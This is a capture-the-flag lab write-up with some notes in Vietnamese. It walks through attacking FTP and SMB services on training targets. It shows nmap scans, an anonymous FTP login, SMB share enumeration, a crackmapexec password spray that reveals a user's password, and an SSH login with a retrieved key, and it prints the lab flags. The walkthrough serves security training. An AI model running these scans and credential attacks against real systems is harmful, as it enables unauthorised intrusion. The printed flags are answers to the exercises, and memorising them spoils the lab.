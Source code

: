 # Attacking FTP

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.245.1 (ACADEMY-ATTCOMSVC-LIN)   

Life Left: 117 minute(s)  Terminate 

+ 1  What port is the FTP service running on?

Quét 10.129.245.1 không ra ftp nên thử host khác

```zsh
❯ nmap -sn 10.129.245.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-02 01:32 EDT
Nmap scan report for 10.129.245.1
Host is up (0.29s latency).
Nmap scan report for 10.129.245.118
Host is up (0.36s latency).
Nmap scan report for 10.129.245.130
Host is up (0.35s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 64.69 seconds
```

```zsh
❯ sudo nmap -sS -p- 10.129.245.130  -T 4 --min-rate 3000 -v -Pn
Nmap scan report for 10.129.245.130
Host is up (0.30s latency).
Not shown: 65493 closed tcp ports (reset)
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
110/tcp   open     pop3
111/tcp   open     rpcbind
143/tcp   open     imap
993/tcp   open     imaps
995/tcp   open     pop3s
2570/tcp  filtered hs-port
7487/tcp  filtered unknown
7525/tcp  filtered unknown
8080/tcp  open     http-proxy
10807/tcp filtered unknown
15733/tcp filtered unknown
17412/tcp filtered unknown
19030/tcp filtered unknown
20648/tcp filtered unknown
21742/tcp filtered unknown
22748/tcp filtered unknown
22843/tcp filtered unknown
23273/tcp filtered unknown
25427/tcp filtered unknown
27525/tcp filtered unknown
27814/tcp filtered unknown
29206/tcp filtered unknown
29209/tcp filtered unknown
29468/tcp filtered unknown
29570/tcp filtered unknown
31948/tcp filtered iceedcp_tx
33458/tcp filtered unknown
37049/tcp filtered unknown
38603/tcp filtered unknown
42207/tcp filtered unknown
46969/tcp filtered unknown
57773/tcp filtered unknown
58260/tcp filtered unknown
60248/tcp filtered unknown
61980/tcp filtered unknown
65015/tcp filtered unknown
65039/tcp filtered unknown

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 42.81 seconds
           Raw packets sent: 123267 (5.424MB) | Rcvd: 69648 (2.786MB)
```

+ 1  What username is available for the FTP server?

```zsh
└──╼ [★]$ ftp 10.129.245.130 21
Connected to 10.129.245.130.
220 (vsFTPd 3.0.3)
Name (10.129.245.130:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||43937|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 May 30  2022 flag.txt
```


+ 1  Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer.

```zsh
❯ cat flag.txt
HTB{0eb0ab788df18c3115ac43b1c06ae6c4}
```

# Attacking SMB

Target(s): 10.129.245.1 (ACADEMY-ATTCOMSVC-LIN)   

Life Left: 146 Terminate 

+ 1  What is the name of the shared folder with READ permissions?

```zsh
❯ smbmap -H 10.129.245.1
[+] IP: 10.129.245.1:445        Name: 10.129.245.1              Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        GGJ                                                     READ ONLY       Priv
        IPC$                                                    NO ACCESS       IPC Service (attcsvc-linux Samba)
```

+ 1  What is the password for the username "jason"?

```zsh
❯ crackmapexec smb 10.129.245.1 -u jason -p pws.list --local-auth
SMB         10.129.245.1    445    ATTCSVC-LINUX    [+] ATTCSVC-LINUX\jason:34c8zuNBo91!@28Bszh
```

+ 1  Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.
Không thể dùng mật khẩu:
![](images/1.png)

Lấy key ssh

![](images/2.png)

```zsh
❯ chmod 600 id_rsa
❯ ssh -i id_rsa jason@10.129.245.1
$ cat flag.txt  
HTB{SMB_4TT4CKS_2349872359}
```

